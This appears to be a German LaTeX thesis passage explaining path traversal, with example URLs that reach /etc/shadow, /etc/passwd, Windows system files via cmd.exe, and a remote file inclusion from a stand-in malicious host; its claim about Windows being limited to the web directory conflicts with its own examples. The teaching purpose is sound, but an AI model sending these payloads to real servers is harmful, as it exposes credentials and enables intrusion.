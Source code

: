 \subsection{Grundprinzip}
\label{sec:PT_GP}
Man sollte nicht auf Dateien, die sich außerhalb vom Web-Directory befinden, von einem Webserver zugreifen können. Beim Path-Traversal versucht der Angreifer durch beifügen von Pfadangaben das Verzeichnis zum Root-Verzeichnis zu wechseln. 
//
Man benutzt ../ als Parameter zum Wechseln des Verzeichnisses.
\subsection{Beispiele}
\label{sec:PT_BSP}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele ist ersichtlich, dass diese Schwäche einem erlaubt lokale Passwörter und Windows Configs auszulesen.  
\\
Unter Linux ist diese Schwäche kritischer, da sie dort Zugriff auf die komplette Festplatte gewährt. In Windows kann jediglich auf das lokale Verzeichnis zugegriffen werden, in welchem sich die Webseite befindet.
\\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese Seite Code zu injizieren, mit dem der Angreifer sich noch mehr Möglichkeiten verschafft. \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}\\
\\ vgl. \textcite{Path-Trav}
\section{HTTP-Protokoll}
Da sich die fortführende Themen mit HTTP und HTTP Request Protokollen beschäftigen werden, werden in diesem Kapitel kurz das Hypertext Transfer Protocol (HTTP) erklärt. 
